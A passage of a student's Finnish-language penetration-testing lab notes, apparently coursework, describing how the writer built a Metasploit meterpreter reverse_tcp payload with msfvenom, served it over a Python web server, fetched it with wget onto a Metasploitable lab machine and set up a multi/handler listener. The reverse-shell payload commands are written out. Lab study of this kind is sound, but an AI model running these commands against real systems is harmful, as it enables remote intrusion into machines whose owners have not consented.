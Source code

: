   ```
Kuten näkyy, käytössä olisi shell_reverse_tcp, mutta halutaan se http, joten muokkaillaan niitä. Voi käytännössä copypasteta aikaisemmista komennoista, jos ei ole tyhjentänyt komentoja välissä

```
set payload (haluttu)
set LHOST (Kali IP)
set LPORT (Portti)
exploit -j
```

Nyt hetken pohdin, et miten saan sen payloadin tuonne metasploitableen ja tuli mieleen [video](https://www.youtube.com/watch?v=ZqWfDrD2WVY), jonka näin aiemmin

- Eli ```python3 -m http.server```
- Käytin ensin curl ```http://192.168.118.3/payload.elf```, mutta siitähän tuli vain kasa symboleita 3 - minuuttia putkeen
- Sitten ```wget http://192.168.118.3/payload.elf```ja sain sen onnistuneesti perille, mutta multi/handler ei sanonut mitään

- Toinen ongelma -> payload oli 64 - bittiselle, vaikka kyseinen metasploitable käyttää 32. Ihmettelin, kun "cannot execute binary file", mutta siitähän se johtui.

![image](https://github.com/user-attachments/assets/64c8a50a-8584-4257-ae30-eeec9a0f9fac)

Pitää siis käyttää tätä:

![image](https://github.com/user-attachments/assets/c47e588c-9b80-42c0-9947-97e2cce0fa55)


Kertaus on opintojen äiti:

```sudo msfvenom -p /linux/x86/meterpreter/reverse_tcp LHOST=192.168.118.3 LPORT=8080 -f elf -o payload.elf
msfconsole
set payload
set LHOST
set LPORT
```

Uus yritys


## Lähteet: 
Cracking Passwords with Hashcat, Karvinen 2022, Luettavissa: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/, Luettu 22/04/2025

Cracking File Password With John, Karvinen 2022, Luettavissa: https://terokarvinen.com/2023/crack-file-password-with-john/

€ Security Penetration Testing - The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials (8 videos, about 30 min), Santos et al 2017, Katsottavissa: https://learning.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00, Katsottu 21/04/2025

€ Metasploit: File-Format Exploits (sivun loppuun, eli Wrapping Up loppuun), Kennedy et al 2025, Luettavissa: https://learning.oreilly.com/library/view/metasploit-2nd-edition/9798341620032/xhtml/chapter9.xhtml#:-:text=File-Format%20Exploits
